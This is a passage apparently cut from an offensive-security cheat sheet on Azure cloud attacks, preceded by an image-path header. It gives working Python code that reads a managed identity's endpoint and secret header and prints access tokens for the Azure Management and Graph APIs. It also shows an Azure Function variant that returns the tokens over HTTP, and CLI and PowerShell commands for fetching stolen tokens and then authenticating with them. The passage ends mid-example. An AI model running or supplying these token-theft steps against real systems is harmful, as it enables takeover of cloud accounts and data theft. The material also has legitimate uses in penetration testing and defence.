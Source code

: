 ```py
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```

or inside a Python Function:

```py
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
    logging.info('Python HTTP trigger function processed a request.')
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
    cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    val = os.popen(cmd).read()
    return func.HttpResponse(val, status_code=200)
```


### Get Tokens

:warning: The lifetime of a Primary Refresh Token is 14 days!

```powershell
# az cli - get tokens 
az account get-access-token 
az account get-access-token --resource-type aad-graph
# or Az
(Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
# or from a managed identity using IDENTITY_HEADER and IDENTITY_ENDPOINT
```

### Use Tokens

> Tokens contain all the claims including that for MFA and Conditional Access

* Az Powershell
    ```powershell
    PS C:\Tools> $token = 'eyJ0e..'
    PS C:\Tools> Connect-AzAccount -AccessToken $token -AccountId <ACCOUNT-ID>
